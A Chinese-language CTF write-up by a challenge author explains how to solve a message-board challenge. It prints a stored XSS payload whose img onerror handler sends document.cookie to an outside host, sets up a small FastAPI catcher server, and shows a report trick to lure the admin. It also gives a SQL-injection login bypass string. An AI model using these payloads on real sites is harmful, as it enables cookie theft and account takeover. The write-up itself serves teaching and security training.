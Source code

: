 # 免费的留言板

- 出题人: pyy

- 验题人: pyy

## 题目描述

免费提示:

- 咦, 这个题的中文名是不是翻译错了?

- ezSQL的flag仿佛名显玄机

  36分提示:

- 这个留言板怎么还可以发图片和按钮的?

- 登录界面好像还藏了一个管理员界面的按钮......藏哪了?

- 一切还是要等拿到管理员账户和密码后再说.......

## 出题思路

Java课要写个留言板, 于是那时候整了一个, 然后玩的时候发现可以搞一个经典的xss盗号。后来弄弄就有了这道题。(虽然前端也重写了, 后端也重写了, 还写了个amis前端热部署, 总之就是全重写了一遍) 实际上这题的前端是从数据库里动态生成的(amis一段json就能搞定, 至于效率, 管他呢), 所以原本是有另外一个钓鱼解法的(把前端页面的登录api改成自己的服务器, 这样就可以拿到所有登陆的人的用户名和密码), 但是怕有人瞎改(不瞎改就怪了, 谁知道这里面该写什么), 所以加了个复杂密码的验证, 相当于ban掉了。

## 解法

### 预期解法

(说起来, 你们看到别人在留言板里发图片和按钮而没见着传图片啥的, 不觉得奇怪吗?)

既然有人发按钮了, 那一定是有xss。(然后拿到管理员cookie就可以了)

先试着搞一波简单的script标签:

`<script>alert(1)<\script>`

![image-20220507080003099](readme.assets/image-20220507080003099.png)

![image-20220507080240490](readme.assets/image-20220507080240490.png)

发现没有显示出来但f12里有(说明没有被套标签), 但同时也没有弹框。(由于这个script是后来生成的而不是一开始就有的, 所以不会被执行。就像你f12往里加script标签一样。不同的是, 如果你加的是`<img src='' onerror=alert(1)>`, onerror里的代码就会被执行。)

```python
import fastapi
import uvicorn
app=fastapi.FastAPI()
if __name__=="__main__":
  uvicorn.run("pyy:app",host="0.0.0.0",port=60080)
```

fastapi起一个服务器, 反正只需要log功能所以啥也不用写。之后再开一个内网穿透, 这样cookie可以打过来。

然后用onerror写一个img标签进去, 然后src为我们的网站+get传cookie。

`<img src="" onerror='new Image().src="http://2pcohv0e.dnat.tech/?"+document.cookie'>`

![image-20220507084852129](readme.assets/image-20220507084852129.png)

收到了, 虽然里面有robot题的cookie, 接下来就是钓管理员上钩。(我钓我自己还有不成功的吗?)

首先交个举报, 说这条留言有问题。这样管理员就会来看这条留言。然后我们就拿到了cookie。

![image-20220507085131525](readme.assets/image-20220507085131525.png)

![image-20220507085215577](readme.assets/image-20220507085215577.png)

这样就上钩了。

![image-20220507085247788](readme.assets/image-20220507085247788.png)

然后拿着密码去登录:

![image-20220507085330814](readme.assets/image-20220507085330814.png)

发现多出来一个按钮, 那就进去看看吧。

![image-20220507085319302](readme.assets/image-20220507085319302.png)

### 预期解2

由于ezSQL的存在, 所以也可以通过盲注的方式把管理员密码弄出来(sqlite区分字符串大小写, 无形降低难度)。顺带一说, ezSQL直接万能密码就可以。由于sqlite不认`#`以及用了双引号的语句所以可能有些同学没做出来。`1"or 1 or "`
